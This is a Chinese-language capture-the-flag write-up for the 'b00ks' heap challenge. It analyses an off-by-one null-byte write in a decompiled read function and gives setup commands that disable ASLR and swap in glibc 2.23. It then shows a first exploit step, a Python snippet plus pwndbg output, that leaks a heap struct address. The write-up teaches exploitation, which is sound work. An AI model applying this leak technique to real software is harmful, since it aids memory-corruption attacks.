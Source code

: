 ##### 漏洞分析

存在该漏洞函数，会造成off-by-one 漏洞

```
signed __int64 __fastcall my_read(_BYTE *a1, int a2)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( a2 <= 0 )
    return 0LL;
  buf = a1;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == 10 )
      break;
    ++buf;
    if ( i == a2 )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

当输入的长度为a2时，该程序会向buf越界写入一个字节\x00

##### 详细步骤

首先由于开启了PIE，为了方便调试，临时关闭系统的地址随机化功能：`echo 0 > /proc/sys/kernel/randomize_va_space`

同时，由于我使用的glibc版本过高，更改程序运行所需要的glibc版本`patchelf --set-interpreter /home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/ld-2.23.so --set-rpath /home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64 b00ks`

换的版本要跟下面的代码中的ELF版本一致哦

###### 第一步：泄露保存在global_book_struct_array的book1_struct的地址

```python
input_author_name(target, 'a'*32)
create_book(target, 0x90 ,'book_1', 0x90, 'first book created')
```

根据程序分析可得：`author_name_ptr` 和 `global_book_struct_array` 之间正好相差 32 个字节，故当author_name输入32个字节的时候，根据漏洞函数，会越界输入一个字节\x00。在创建book_struct1后，其地址正好覆盖了越界的字节，此时在输出anthor_name的时候会将book1_struct的地址泄露

运行后结果：0x555555602040是`author_name_ptr`，程序的起始地址是0x555555400000，加上IDA中分析的偏移量0x202040得到的，当然也可以在调试的过程中得到，然后查看其内容

```
pwndbg> x /10gx 0x555555602040
0x555555602040:	0x6161616161616161	0x6161616161616161         //author_name
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605160	//book1_struct的地址     0x0000000000000000
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
//0x555555602060也是global_book_struct_array的起始地址
```
